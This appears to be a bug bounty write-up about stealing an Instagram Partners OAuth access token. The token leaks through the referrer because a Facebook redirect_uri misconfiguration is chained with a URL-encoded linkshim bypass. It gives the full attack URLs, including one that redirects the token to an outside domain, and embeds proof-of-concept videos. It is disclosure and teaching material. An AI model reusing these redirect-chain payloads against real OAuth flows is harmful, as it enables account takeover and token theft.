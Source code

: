 >Getting access token of instagram partners account through referrer leakage using linkshim

This issue allowed me to take over the insta partners account code and access_token.

Instagram partners uses facebook for authentication. The redirect_uri for the fb oauth is `instagrampartners.com`. But a small
misconfiguration in redirect_uri helped me to take over the access_token.

Partners was allowing `instagram.com` as a domain for redirection and even subdomains `*.instagram.com`. There is no option for me 
except linkshim or oauth to bypass. linkshim clears the referrer and remaining headers before redirecting.

Redirection bypass contained url encoded elements which helped parameters from facebook to escape the linkshim of instagram. Using 
url encoding helped linkshim url with access token to leak through referrer.

Example consider this linkshim instagram url:

>http://l.instagram.com/?e=ATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw&u=http://google.com/

Linkshim bypass url :

>http://l.instagram.com/?e%3DATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw%26u%3Dhttp://google.com

Oauth bypass url : 

>https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&redirect_uri=http%3A%2F%2Fl.instagram.com%2F%3Fe%3DATNqsDRx0x7ZVfVF282iVvW4zr6QOhmME_M35bNw6rHrt6L30ajQ2t-YStDi6g%26u%3Dhttp%3A%2F%2Fgoogle.com%2F&scope=public_profile%2Cemail&response_type=code


Proof of concept : 

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZk4zMU9TdUFQMzg/preview" width="640" height="480"></iframe>


Code it self can't do any thing without `client_secret` and same redirect url (instagrampartners.com) is required for explict authentication from server side.
Linkshim was not allowing url fragments. When `response_type` is set to `token`, It returns in the from of fragment. So anything
after `#` is negelected by linkshim. I used oauth to bypass the restrictions by linkshim.

Oauth bypass url using oauth :

>https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&scope=public_profile%2Cemail&response_type=token&redirect_uri=https%3A%2F%2Fwww.instagram.com%2Foauth%2Fauthorize%2F%3Fclient_id%3D{REDACTED}%26response_type%3Dcode%26redirect_uri%3Dhttp%3A%2F%2Fmunchinng.com%2F%26state%3D

Proof of concept :

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZTJEdmtIc1lMUDA/preview" width="640" height="480"></iframe>


